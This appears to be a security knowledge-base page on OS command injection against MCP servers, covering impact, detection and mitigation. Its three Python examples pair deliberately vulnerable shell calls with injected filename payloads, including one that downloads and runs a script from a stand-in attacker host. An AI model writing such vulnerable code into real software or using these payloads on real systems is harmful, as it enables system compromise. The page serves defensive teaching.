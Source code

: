 ```yaml
---
layout: default
title: "OS Command Injection"
permalink: /ttps/command-injection/os-command-injection/
nav_order: 3
parent: "Command & Code Injection"
grand_parent: "MCP Security TTPs"
---
```


# OS Command Injection

**Category**: Command & Code Injection  
**Severity**: Critical  
**MITRE ATT&CK Mapping**: T1059 (Command and Scripting Interpreter)

## Description

Execution of operating system commands through vulnerable MCP server implementations, enabling attackers to execute arbitrary OS-level commands and compromise the underlying system.

## Technical Details

### Attack Vector
- OS command execution through MCP tools
- System call vulnerabilities
- Shell command injection
- Process execution manipulation

### Common Techniques
- Shell metacharacter exploitation
- Command substitution attacks
- Process chaining
- Environment variable manipulation

## Impact

- **System Takeover**: Complete control over the operating system
- **File System Access**: Read, write, and execute files on the system
- **Network Access**: Access to network resources and services
- **Privilege Escalation**: Execution with elevated system privileges

## Detection Methods

### System Monitoring
- Monitor system call execution
- Track process creation
- Detect unusual command patterns
- Monitor file system access

### Process Analysis
- Analyze process execution trees
- Monitor process arguments
- Track process lifetime
- Detect process injection

## Mitigation Strategies

### Command Filtering
- Implement command allow-lists
- Use command validation
- Deploy command sanitization
- Restrict system access

### Process Security
- Use process isolation
- Implement sandboxing
- Deploy process monitoring
- Restrict process permissions

## Real-World Examples

### Example 1: Shell Metacharacter Exploitation
```python
def compress_file(filename):
    # Vulnerable OS command execution
    os.system(f"gzip {filename}")
    
    # Attack: filename = "file.txt; wget http://attacker.com/malware.sh; chmod +x malware.sh; ./malware.sh"
    # Executed: gzip file.txt; wget http://attacker.com/malware.sh; chmod +x malware.sh; ./malware.sh
```

### Example 2: Command Substitution
```python
def get_file_info(filename):
    # Vulnerable command substitution
    result = subprocess.check_output(f"file {filename}", shell=True)
    
    # Attack: filename = "$(whoami > /tmp/user.txt)"
    # Executed: file $(whoami > /tmp/user.txt)
```

### Example 3: Environment Variable Manipulation
```python
def run_script(script_name):
    # Vulnerable environment variable usage
    os.system(f"$SCRIPT_DIR/{script_name}")
    
    # Attack: script_name = "../../../bin/sh" with SCRIPT_DIR="/tmp"
    # Executed: /tmp/../../../bin/sh
```

## References & Sources

- **Strobes Security** - "MCP and Its Critical Vulnerabilities"
- **Simon Willison** - "Model Context Protocol has prompt injection security problems"
- **Structured MCP Threats** - Comprehensive threat landscape analysis

## Related TTPs

- [Command Injection](command-injection.md)
- [Shell Command Execution](shell-command-execution.md)
- [Code Injection](code-injection.md)

---

*OS command injection represents a critical vulnerability that can lead to complete system compromise through arbitrary operating system command execution.*